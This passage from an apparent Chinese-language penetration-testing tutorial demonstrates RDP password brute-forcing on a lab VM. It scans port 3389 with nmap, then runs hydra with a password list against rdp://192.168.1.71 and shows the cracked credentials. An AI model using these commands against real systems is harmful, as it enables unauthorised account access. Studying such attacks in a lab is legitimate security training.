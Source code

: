 ![开启 RDP 服务](./../../../images/%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3/%E5%BC%80%E5%90%AF%20RDP%20%E6%9C%8D%E5%8A%A1.png)

使用 nmap 扫描 RDP 服务端口 3389

```
┌──(root㉿Kali-24)-[~]
└─# nmap 192.168.1.71 -p 3389
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 18:57 CST
Nmap scan report for 192.168.1.71
Host is up (0.00019s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
MAC Address: 00:0C:29:0E:EC:86 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

> 可以看到端口是开启的

开始爆破

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l hello -P hello.txt rdp://192.168.1.71 -vV
```

```
[3389][rdp] host: 192.168.1.71   login: windows   password: hello
```
